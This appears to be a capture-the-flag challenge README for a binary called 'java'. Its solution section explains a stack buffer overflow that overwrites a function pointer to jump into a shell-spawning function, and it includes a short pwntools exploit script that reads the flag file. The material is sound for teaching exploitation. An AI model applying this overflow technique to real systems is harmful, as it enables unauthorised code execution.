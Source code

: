 # Java
### 📄 Description
Comparing strings in assembly is an hard task for java n00bs.

### ⚙ How to run it
```bash
./java
```

### ⛔ Rules
Don't open the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
    
By looking at the source we can see that there's a struct containing a string followed by a function pointer, if we can somehow overflow the string buffer we can jump to an arbitrary location. One interesting destination might be the last line of the `bash` function which happens to have an offset of `0x32` from the start of the function. The user input handling doesn't check string bounds so we can easily overflow the buffer and pop a shell.

```python
from pwn import *

context.binary = "./java"

p = process()
p.sendline(b"java" + b"A" * 28 + p64(context.binary.functions["bash"].address + 0x32))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
flag{this_is_a_flag}
```
</details>
